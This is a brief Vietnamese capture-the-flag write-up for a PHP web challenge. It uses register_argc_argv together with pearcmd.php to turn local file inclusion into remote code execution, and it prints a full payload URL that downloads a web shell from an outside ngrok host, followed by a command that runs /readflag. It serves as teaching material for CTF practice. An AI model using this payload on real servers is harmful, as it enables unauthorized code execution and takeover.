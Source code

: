 # Solution

Từ gợi ý trong source code và từ phpinfo() ta thấy `register_argc_argv: On`
đồng thời kết hợp với [pearcmd LFI2RCE](https://github.com/w181496/Web-CTF-Cheatsheet#pear) để khai thác.

payload:

```
/?+install+--force+--installroot+/tmp/wtf+https://1fb5-101-99-36-202.ap.ngrok.io/shell.php+?&page=../../../../usr/local/lib/php/pearcmd.php
```

shell.php

![shell](https://user-images.githubusercontent.com/77546253/172332527-38fac478-343c-4989-a408-0e229928f70a.png)

sau đó: `0=system('/readflag');`


**SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}**
